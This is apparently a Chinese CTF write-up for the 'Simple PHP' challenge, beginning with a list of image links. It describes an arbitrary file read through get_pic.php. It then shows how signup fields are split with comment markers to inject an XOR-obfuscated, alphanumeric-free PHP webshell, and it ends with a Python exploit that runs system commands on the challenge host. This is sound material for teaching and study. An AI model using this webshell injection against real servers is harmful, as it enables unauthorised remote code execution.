









#  Simple PHP

进入网页，可以看到登录和注册两个界面，注册一个用户并登录进去。




查看网页源码可以找到一个有意思的地方，看样子这个get_pic.php似乎可以读取其他文件。



把后面参数的png替换成index.php试试，结果以base64的形式出现，解码之后得到的是php的文件内容，说明get_pic.php可以读取任意文件的内容，利用这个就可以得到网站的源码。




可以发现，在注册用户之后，后端会对post的内容进行判断，再将template中的对应位置替换成post的内容，保存为一个新的php文件。




password被md5了，所以只剩下user、punctuation和website可以利用，其中user的长度限制得很短，punctuation很长但不能输入字母数字，且punctuation是在php代码以外的html部分，website同理。

要把punctuation包含的php代码里面，可以在user和punctuation之间用/* */注释掉，其中user的内容可以设为“eval/*”，正好6个字符且能通过正则，再把punctuation设为“*/(“”));/*”，引号中是shell的内容，这样这段代码就等同于“eval(“”)”。网上可以找到无字母数字的webshell，其原理是通过异或等方式输出字母。



使用这种方法，就能写出一个绕过正则的可执行代码，其内容为“assert($_POST(_));”。



成功注册并生成新文件后，post这个文件，其中表单内容为php代码，例如用system执行系统命令。



可以发现ls执行成功了，并且能在根目录看到flag文件，最后用同样的方式cat这个文件就能得到flag内容。

EXP：
```python
import requests
import hashlib

base = 'http://120.77.216.55:45323'
user = 'eval/*'
pass_ = 'aaa'
punctuation = \
    "*/(\"" + \
    "\$_ = (':' ^ '[') . ('.' ^ ']') . ('.' ^ ']') . ('_' ^ ':') . ('_' ^ '-') . ('_' ^ '+');" + \
    "\$__ = '_' . ('+' ^ '{') . ('/' ^ '`') . ('(' ^ '{') . ('(' ^ '|');" + \
    "\$___ = \$\$__;" + \
    "\$_(\$___[_]);" + \
    "\"));/*"
website = 'aaa'
signup = {
    'user': user,
    'pass': pass_,
    'website': website,
    'punctuation': punctuation,
}
requests.post(base + '/index.php', data=signup)

cookies = {
    'user': user,
    'pass': 'zsf' + hashlib.md5(pass_.encode()).hexdigest()
}

user_php = base + '/sandbox/' + hashlib.md5(user.encode()).hexdigest() + '.php'
r = requests.post(user_php, cookies=cookies, data={'_': 'system(\'ls /\');'})
print(r.text)
```
